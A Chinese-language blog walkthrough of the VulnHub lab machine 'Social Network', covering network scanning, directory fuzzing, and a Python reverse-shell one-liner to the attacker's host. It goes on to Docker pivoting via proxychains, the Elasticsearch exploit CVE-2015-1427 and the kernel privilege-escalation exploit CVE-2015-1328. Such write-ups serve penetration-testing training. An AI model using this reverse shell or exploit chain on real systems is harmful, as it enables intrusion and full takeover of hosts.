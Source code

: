 ```yaml
---
title: 打靶练习1-Social Network
date: 2021-12-27 20:18:39
categories: 红队技术
tags: 打靶

---
```


> 天长地久。天地所以能长且久者，以其不自生，故能长生。

靶机：BoredHackerBlog: Social Network

<!-- more -->



靶机地址：https://www.vulnhub.com/entry/boredhackerblog-social-network,454/

建议使用VirtualBox搭建环境

**局域网二层扫描**

```
sudo arp-scan -l
```

1. 判断存活主机[Ladon](https://github.com/k8gege/LadonGo)

   ```
   sudo ./Ladon 192.168.0.101/24 IcmpScan
   ```

   

2. 端口扫描，确定ip

   ```
   nmap 192.168.0.104
   ```

3. 全端口扫描：

   ```
   nmap -p- 192.168.0.104
   ```

   ```
   Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 11:05 CST
   Nmap scan report for 192.168.0.104
   Host is up (0.0013s latency).
   Not shown: 65533 closed ports
   PORT     STATE SERVICE
   22/tcp   open  ssh
   5000/tcp open  upnp
   ```

    

4. 服务扫描

   ```
   nmap -p22,5000 -sV 192.168.0.104
   ```

   ```
   PORT     STATE SERVICE VERSION
   22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
   5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
   ```

5. 目录扫描

   ```
   ffuf -w ~/wordlist/Web-Fuzzing-Box/Dir/Directories.txt -u http://192.168.0.104:5000FUZZ -mc all -v -fc 404
   ```

   http://192.168.0.104:5000/admin

6. python反弹shell

   ```
   import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
   ```

7. 容器识别：

   ```
   ls /.dockerenv
   或者
   cat /proc/1/cgroup
   ```

8. 存活ip扫描

   ```
   for i in $(seq 1 10); do ping -c 1 172.17.0.$i; done
   ```

9. 代理建立

   <img src="../images/pic/daba1.png" alt="image-20211031121233836" style="zoom:50%;" /> 

   

10. 代理扫描

    ```
    proxychains4 nmap -Pn -sT 172.17.0.1
    
    proxychains4 nmap -Pn -sT 172.17.0.2
    proxychains4 nmap -p9200 -Pn -sT -sV 172.17.0.2
    ```

11. 搜索Elasticsearch Exp

    ```
    searchsploit Elasticsearch
    ```

12. 复制payload

    ```
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py ./
    ```

    

13. 漏洞利用CVE-2015-1427

14. 登录，尝试sudo权限：sudo -s

15. 搜索内核漏洞

    ```
    searchsploit linux 3.13
    
    CVE-2015-1328
    ```

16. 复制exp

    ```
    cp /usr/share/exploitdb/exploits/linux/local/37292.c ./
    ```

17. 修改exp

    <img src="../images/pic/daba2.png" alt="image-20211031202653110" style="zoom:50%;" /> 

18. 搜索依赖so文件

    ```
    locate ofs-lib.so
    ```

19. 靶机下载so文件和exp

20. 移动到tmp目录

21. 执行exp

    ```
    chmod +x exp
    ./exp
    ```

    



